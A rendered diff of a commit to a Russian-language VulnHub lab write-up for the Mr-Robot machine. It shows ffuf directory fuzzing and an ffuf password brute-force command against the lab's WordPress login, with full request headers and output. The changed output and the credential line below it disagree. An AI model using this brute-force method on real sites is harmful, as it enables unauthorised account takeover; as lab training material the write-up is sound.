

Before and after one commit to 0x2d-pentest/VulnHub, a Markdown page: Lin Intermediate - Mr-Robot_1/writeup.md, 2 parts joined by grey strips. Shown: that part at 97% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Lin Intermediate - Mr-Robot_1/writeup.md
+++ b/Lin Intermediate - Mr-Robot_1/writeup.md
@@ -149,6 +149,10 @@ phpmyadmin              [Status: 403, Size: 94, Words: 14, Lines: 1, Duration: 1
 xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 958ms]
 IMAGE                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 855ms]
 wp-signup               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 798ms]
+KeithRankin%20          [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 952ms]
+kaspersky%20            [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 884ms]
+page01                  [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 1518ms]
+Cirque%20du%20soleil%20 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 1578ms]
 ```
 
 ### wpscan
@@ -320,10 +324,10 @@ ELLIOT                  [Status: 200, Size: 3659, Words: 144, Lines: 59, Duratio
 ### Вывод по бенчмарку
 `ffuf` на 30% быстрее, чем `hydra` для этой задачи, но не поддерживает возобновление после сбоя/прерывания
 
-### Получил доступ к панели
+Фаззинг пароля
 ```bash
 ┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits]
-└─$ ffuf -request ./post.txt -t 40 -request-proto http -w ./fsocity_filtered.txt -ic -c -fs 3659
+└─$ ffuf -request ./post.txt -t 40 -request-proto http -w ./fsocity_filtered.txt -ic -c -fc 200
 
         /'___\  /'___\           /'___\
        /\ \__/ /\ \__/  __  __  /\ \__/
@@ -338,29 +342,29 @@ ________________________________________________
  :: Method           : POST
  :: URL              : http://192.168.56.129/wp-login.php
  :: Wordlist         : FUZZ: /home/kali/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits/fsocity_filtered.txt
- :: Header           : Origin: http://192.168.56.129
- :: Header           : Connection: keep-alive
- :: Header           : Upgrade-Insecure-Requests: 1
- :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
- :: Header           : Accept-Encoding: gzip, deflate, br
- :: Header           : Accept-Language: en-US,en;q=0.5
- :: Header           : Content-Type: application/x-www-form-urlencoded
- :: Header           : Referer: http://192.168.56.129/wp-login.php
- :: Header           : Cookie: s_cc=true; s_fid=79C0FCABB9686E81-21543240C5D7C7BB; s_nr=1753192766411; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
  :: Header           : Priority: u=0, i
  :: Header           : Host: 192.168.56.129
  :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
+ :: Header           : Connection: keep-alive
+ :: Header           : Referer: http://192.168.56.129/wp-login.php
+ :: Header           : Cookie: s_cc=true; s_fid=79C0FCABB9686E81-21543240C5D7C7BB; s_nr=1753192766411; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
+ :: Header           : Upgrade-Insecure-Requests: 1
+ :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
+ :: Header           : Accept-Language: en-US,en;q=0.5
+ :: Header           : Accept-Encoding: gzip, deflate, br
+ :: Header           : Content-Type: application/x-www-form-urlencoded
+ :: Header           : Origin: http://192.168.56.129
  :: Data             : log=elliot&pwd=FUZZ&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.129%2Fwp-admin%2F&testcookie=1
  :: Follow redirects : false
  :: Calibration      : false
  :: Timeout          : 10
  :: Threads          : 40
  :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
- :: Filter           : Response size: 3659
+ :: Filter           : Response status: 200
 ________________________________________________
 
-20150603025145          [Status: 200, Size: 1512, Words: 1, Lines: 1, Duration: 1573ms]
-[WARN] Caught keyboard interrupt (Ctrl-C)
+ER28-0652               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1680ms]
+:: Progress: [11451/11451] :: Job [1/1] :: 58 req/sec :: Duration: [0:10:57] :: Errors: 13 ::
 ```
 
 Креды `elliot:20150603025145`
````
